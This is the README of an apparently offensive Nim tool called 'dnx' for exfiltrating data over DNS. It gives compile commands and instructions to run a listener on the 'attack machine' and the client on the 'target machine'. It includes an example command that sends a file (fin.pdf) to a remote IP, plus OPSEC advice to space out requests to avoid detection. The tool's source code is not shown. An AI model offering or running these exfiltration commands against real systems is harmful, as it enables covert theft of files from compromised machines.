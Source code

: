 # dnx
Data exfiltration over DNS

### Compile
Nim is cross compilation, compile according to your platform (e.g for Windows x64):
```
nim c -d:mingw -d:release --app:console --opt:size --cpu:amd64 .\dnx.nim
nim c -d:mingw -d:release --app:console --opt:size --cpu:amd64 .\dnxsvr.nim
```

### Instructions
Run dnxsvr on the attack machine:
```
.\dnxsvr.exe
```

Run dnx on the target machine:
```
.\dnx.exe
[!] Use: dnx.exe <IP> <File> <Time between requests in ms>
[!] e.g: dnx.exe 127.0.0.1 file.pdf 1000

.\dnx.exe 192.168.0.100 fin.pdf 500
```

OPSEC:
The longer the time between requests, the more opsec!

### Inspired by
[Offensive Nim - dns_exfiltrate.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/dns_exfiltrate.nim)
